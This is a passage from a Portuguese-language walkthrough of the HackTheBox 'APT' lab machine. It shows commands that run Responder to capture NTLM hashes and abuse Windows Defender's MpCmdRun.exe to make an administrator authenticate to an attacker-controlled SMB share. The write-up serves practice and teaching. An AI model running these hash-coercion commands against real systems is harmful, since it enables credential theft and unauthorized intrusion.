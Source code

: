 ![Salt - Challenge](Assets/HTB-Windows-Insane-APT/salt_challenge.png)

Depois de forçar o SALT a 1122334455667788 para ser enviado quando nos for solicitado durante o Challenge Responde Protocol, é só ligar o responder e esperar...

```bash
sudo responder -I tun0 --lm -v
```

## 3.3. MsCmdRun.exe

Esperar... e esperar o que? o responder simula montes de serviços de partilha e afins, e captura hashes e informações criticas de quem se conecta a nossa máquina Kali. Mas neste plano, existe um problema... Ninguém vai-nos pedir coisas...

Pois não. Ninguém vai porque é uma máquina HTB, mas mesmo assim, podemos forçar a que a máquina solicite coisas ao nosso responder, estamos ligado à máquina alvo com evil-winrm...

Mas já temos tudo o que percisamos deste usuário, portanto nem vale a pena enviar petições ao nosso responder... Mas podemos fazer com que outro usuário faça uma petição... À pouco, percisámos burlar o Windows Defender... e agora, vamos percisar dele lool. Podemos dizer ao Windows Defender para verificar a perigosidade de um arquivo noutro ponto de rede. E o usuários que irá fazer isso é um administrador...

```bash
cd "C:\Program Files\Windows Defender"
.\MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.14.21\test.txt
```
